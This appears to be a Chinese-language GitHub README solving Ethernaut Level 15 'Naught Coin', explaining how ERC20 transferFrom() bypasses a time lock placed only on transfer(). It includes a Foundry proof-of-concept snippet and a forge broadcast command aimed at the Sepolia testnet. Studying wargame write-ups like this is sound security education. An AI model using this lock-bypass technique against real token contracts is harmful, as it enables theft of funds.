

<div align="center">
<p align="left">(<a href="https://github.com/XuHugo/Ethernaut-Foundry-Solutions/tree/main/solutions">back</a>)</p>


<br><br>
<h1><strong>Ethernaut Level 15 - Naught Coin</strong></h1>

</div>
<br>

详细解读文章: [Ethernaut Foundry Solutions | Level 15 - Telephone](https://blog.csdn.net/xq723310/)

## 目录

- [目录](#目录)
- [目标](#目标)
- [漏洞](#漏洞)
- [解答](#解答)
- [要点](#要点)

## 目标

你拥有所有token，但是需要锁定10年，如何现在就把它们全部转走呢？


## 漏洞

NaughtCoin关卡有说简单也很简单，但是你是否真正意识到了ERC20的全部，它的意义在于，给我们上了关于正确实现继承函数的重要性的宝贵一课。

我们可以看到`transfer()`函数有一个`lockTokens` 修饰符。

```javascript
modifier lockTokens() {
    if (msg.sender == player) {
      require(block.timestamp > timeLock);
      _;
    } else {
     _;
    }
}
```

看起来我们将无法使用`transfer()`函数将token转移到另一个地址。但在ERC20标准中，也有一个`transferFrom()`函数，它允许另一个地址在批准的情况下代表我们执行转账。

由于`transferFrom()`函数没有在NaughtCoin合约中实现，因此它的实现将是OpenZeppelin合约中定义的，没有`lockTokens`修饰符。

换句话说，我们可以使用`transferFrom()`函数将token转移到另一个地址，而不必担心时间锁。

## 解答

现在我们只需要通过`aprrove`函数给其他人授权全部余额，然后又被授权人转走全部余额即可。

```javascript
    vm.startPrank(player1, player1);

    uint256 playerBalance = instance.balanceOf(player1);
    instance.approve(player1, playerBalance);
    instance.transferFrom(player1, player2, playerBalance);

    assertEq(instance.balanceOf(player1), 0);
    assertEq(instance.balanceOf(player2), playerBalance);
    vm.stopPrank();
```

你可以在项目的根目录执行以下命令，进行验证；

```bash
forge script script/15_NaughtCoin.s.sol:PoC --rpc-url sepolia --broadcast --watch
```

## 要点

- 从其他合约继承时一定要小心。并确保正确地实现继承函数。

<div align="center">
<br>
<h2>🎉 Level completed! 🎉</h2>
</div>
